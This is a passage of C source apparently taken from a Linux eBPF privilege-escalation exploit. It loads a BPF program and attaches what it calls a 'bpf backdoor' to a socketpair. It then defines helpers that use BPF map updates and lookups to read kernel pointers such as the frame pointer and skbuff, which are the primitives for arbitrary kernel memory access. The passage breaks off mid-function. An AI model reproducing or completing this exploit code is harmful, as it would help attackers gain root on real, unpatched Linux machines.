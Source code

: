 ```
	progfd = load_prog();
	if (progfd < 0) {
		if (errno == EACCES) {
			msg("log:\n%s", bpf_log_buf);
		}
		fail("failed to load prog '%s'\n", strerror(errno));
	}

	redact("creating socketpair()\n");
	if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets)) {
		fail("failed to create socket pair '%s'\n", strerror(errno));
	}

	redact("attaching bpf backdoor to socket\n");
	if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0) {
		fail("setsockopt '%s'\n", strerror(errno));
	}
}

static void writemsg() {
	ssize_t n = write(sockets[0], buffer, sizeof(buffer));
	if (n < 0) {
		perror("write");
		return;
	}
	if (n != sizeof(buffer)) {
		fprintf(stderr, "short write: %zd\n", n);
	}
}

static void 
update_elem(int key, unsigned long value) {
	if (bpf_update_elem(mapfd, &key, &value, 0)) {
		fail("bpf_update_elem failed '%s'\n", strerror(errno));
	}
}

static unsigned long 
get_value(int key) {
	unsigned long value;
	if (bpf_lookup_elem(mapfd, &key, &value)) {
		fail("bpf_lookup_elem failed '%s'\n", strerror(errno));
	}
	return value;
}

static unsigned long
sendcmd(unsigned long op, unsigned long addr, unsigned long value) {
	update_elem(0, op);
	update_elem(1, addr);
	update_elem(2, value);
	writemsg();
	return get_value(2);
}

unsigned long
get_skbuff() {
	return sendcmd(1, 0, 0);
}

unsigned long
get_fp() {
	return sendcmd(0, 0, 0);
```